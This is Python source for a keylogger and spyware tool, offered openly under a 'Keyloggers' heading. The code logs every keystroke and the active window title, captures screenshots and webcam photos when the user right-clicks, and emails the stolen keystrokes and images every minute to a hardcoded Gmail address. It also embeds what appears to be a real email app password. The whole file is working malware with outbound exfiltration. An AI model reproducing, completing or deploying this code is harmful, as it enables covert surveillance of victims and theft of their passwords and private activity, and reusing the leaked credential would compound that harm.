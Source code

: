 # Keyloggers
from pynput.keyboard import Key, Listener
from pynput.mouse import Listener as MouseListener, Button
import smtplib
import ssl
import win32gui
import pyautogui
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.image import MIMEImage
import os
import time
import cv2

keys = []
start_time = time.time()

def on_press(key):
    global keys
    keys.append(key)
    check_and_send_report()

def on_click(x, y, button, pressed):
    if pressed and button == Button.right:
        take_and_send_screenshot_and_photo()

def check_and_send_report():
    global start_time
    elapsed_time = time.time() - start_time
    if elapsed_time >= 60:  # 1 minute in seconds
        log_to_file()
        email()
        reset_values()

def take_and_send_screenshot_and_photo():
    take_screenshot()
    take_photo()
    send_screenshot_and_photo_email()

def email():
    global keys
    global start_time
    
    message = ""
    for key in keys:
        if hasattr(key, 'char'):
            message += key.char
        elif key == Key.space:
            message += ' '
        elif key == Key.enter:
            message += '\n'
        else:
            # If the key is not printable or a special key, ignore it
            continue
    
    active_window_title = get_active_window_title()
    if active_window_title:
        message += f"\n\nActive Window Title: {active_window_title}"
    
    # Add a sentence indicating the time range for the captured keystrokes
    message += f"\n\nKeystrokes recorded from {time.strftime('%H:%M', time.localtime(start_time))} to {time.strftime('%H:%M', time.localtime(time.time()))}"

    sender_email = "mahankalikrishna01@gmail.com"
    receiver_email = "mahankalikrishna01@gmail.com"
    password = "stwi hhky zfsx amnt"  # Replace with your password
    
    msg = MIMEMultipart()
    msg['From'] = sender_email
    msg['To'] = receiver_email
    msg['Subject'] = 'Keylogger Report'

    msg.attach(MIMEText(message, 'plain'))

    # Attach screenshot
    filename = 'screenshot.png'
    with open(filename, 'rb') as file:
        img_data = file.read()
    img_part = MIMEImage(img_data, name=os.path.basename(filename))
    msg.attach(img_part)

    # Attach webcam photo
    photo_filename = 'webcam_photo.png'
    with open(photo_filename, 'rb') as file:
        img_data = file.read()
    photo_part = MIMEImage(img_data, name=os.path.basename(photo_filename))
    msg.attach(photo_part)

    context = ssl.create_default_context()
    with smtplib.SMTP_SSL("smtp.gmail.com", 465, context=context) as server:
        server.login(sender_email, password)
        server.send_message(msg)

def send_screenshot_and_photo_email():
    # Define this function to send the screenshot and webcam photo via email
    pass

def get_active_window_title():
    try:
        return win32gui.GetWindowText(win32gui.GetForegroundWindow())
    except Exception as e:
        print("Error getting active window title:", e)
        return None

def on_release(key):
    if key == Key.esc:
        return False

def log_to_file():
    global keys
    active_window_title = get_active_window_title()
    with open('keylog.txt', 'a') as log:
        log.write("\n".join(map(str, keys)))
        if active_window_title:
            log.write(f"\nActive Window Title: {active_window_title}\n")

def take_screenshot():
    try:
        screenshot = pyautogui.screenshot()
        screenshot.save("screenshot.png")
    except Exception as e:
        print("Error taking screenshot:", e)

def take_photo():
    try:
        # Open the webcam
        cap = cv2.VideoCapture(0)
        ret, frame = cap.read()

        # Save the captured frame
        cv2.imwrite("webcam_photo.png", frame)

        # Release the camera
        cap.release()
    except Exception as e:
        print("Error capturing webcam photo:", e)

def reset_values():
    global keys, start_time
    keys = []
    start_time = time.time()

with Listener(on_press=on_press, on_release=on_release) as listener:
    with MouseListener(on_click=on_click) as mouse_listener:
        listener.join()
